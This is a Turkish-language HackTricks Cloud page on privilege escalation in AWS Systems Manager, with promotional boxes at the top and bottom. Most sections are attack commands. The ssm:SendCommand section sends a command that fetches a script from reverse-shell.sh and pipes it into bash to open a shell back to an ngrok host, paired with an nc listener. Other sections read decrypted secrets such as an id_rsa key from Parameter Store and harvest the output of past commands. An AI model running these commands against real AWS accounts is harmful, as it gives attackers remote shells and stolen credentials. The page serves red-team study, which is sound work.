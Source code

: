 # AWS - SSM Yetki Yükseltme

<details>

<summary><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamını görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)'i **takip edin**.
* Hacking hilelerinizi [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR göndererek paylaşın.

</details>

## SSM

SSM hakkında daha fazla bilgi için:

{% content-ref url="../aws-hizmetleri/aws-ec2-ebs-elb-ssm-vpc-ve-vpn-tarama/" %}
[aws-ec2-ebs-elb-ssm-vpc-ve-vpn-tarama](../aws-hizmetleri/aws-ec2-ebs-elb-ssm-vpc-ve-vpn-tarama/)
{% endcontent-ref %}

### `ssm:SendCommand`

**`ssm:SendCommand`** iznine sahip bir saldırgan, Amazon SSM Agent çalıştıran örneklerde **komutları yürütebilir** ve içinde çalışan IAM Rolünü **tehlikeye atabilir**.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Potansiyel Etki:** Çalışan SSM Ajanlarına sahip EC2 IAM rollerine doğrudan ayrıcalık yükseltme.

### `ssm:StartSession`

**`ssm:StartSession`** iznine sahip bir saldırgan, Amazon SSM Ajanı çalıştıran örneklerde bir SSH benzeri oturum başlatabilir ve içinde çalışan IAM Rolünü tehlikeye atabilir.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Bir oturum başlatmak için **SessionManagerPlugin** yüklü olması gerekmektedir: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Potansiyel Etki:** Çalışan SSM Ajanlarına bağlı EC2 IAM rollerine doğrudan ayrıcalık yükseltme.

#### ECS'ye Ayrıcalık Yükseltme

**ECS görevleri** **`ExecuteCommand` etkin** olduğunda, yeterli izinlere sahip kullanıcılar `ecs execute-command` kullanarak konteyner içinde bir komut çalıştırabilir.\
[**Belgelere**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) göre, bu, "exec" komutunu başlatmak için kullandığınız cihaz ile SSM Oturum Yöneticisi ile hedef konteyner arasında güvenli bir kanal oluşturularak yapılır.\
Bu nedenle, `ssm:StartSession` iznine sahip kullanıcılar, bu seçeneği etkinleştirilmiş ECS görevlerinin içinde bir kabuk alabilirler, sadece aşağıdaki komutu çalıştırarak:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Potansiyel Etki:** `ExecuteCommand` etkinleştirilmiş çalışan görevlere bağlı `ECS` IAM rollerine doğrudan ayrıcalık yükseltme.

### `ssm:ResumeSession`

**`ssm:ResumeSession`** iznine sahip bir saldırgan, **bağlantısı kesilmiş** bir SSM oturum durumunda çalışan Amazon SSM Ajanına **SSH benzeri bir oturumu yeniden başlatabilir** ve içinde çalışan IAM Rolünü **tehdit altına alabilir**.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Potansiyel Etki:** SSM Ajanları çalışan ve bağlantısı kesilmiş oturumlara bağlı EC2 IAM rollerine doğrudan ayrıcalık yükseltme.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Söz konusu izinlere sahip bir saldırgan, **SSM parametrelerini listeleyebilecek** ve bunları **açık metin olarak okuyabilecektir**. Bu parametrelerde SSH anahtarları veya API anahtarları gibi **hassas bilgileri sık sık bulabilirsiniz**.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Potansiyel Etki:** Parametreler içinde hassas bilgiler bulunabilir.

### `ssm:ListCommands`

Bu izne sahip bir saldırgan, gönderilen tüm **komutları** listeyebilir ve umarız ki bunlarda **hassas bilgiler** bulabilir.
```
aws ssm list-commands
```
**Potansiyel Etki:** Komut satırlarında hassas bilgiler bulunabilir.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Bu izinlere sahip bir saldırgan, gönderilen tüm **komutları** ve umarım **hassas bilgileri** içeren çıktıyı okuyarak bulabilir.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Potansiyel Etki:** Komut satırlarının çıktısı içinde hassas bilgiler bulunabilir.

### Codebuild

Ayrıca, bir codebuild projesine erişmek için SSM'yi kullanabilirsiniz:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>AWS hackleme konusunda sıfırdan kahramana kadar öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya **HackTricks'i PDF olarak indirmek** için [**ABONELİK PLANLARI**](https://github.com/sponsors/carlospolop)'na göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya bizi **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**'da takip edin.**
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek** paylaşın.

</details>
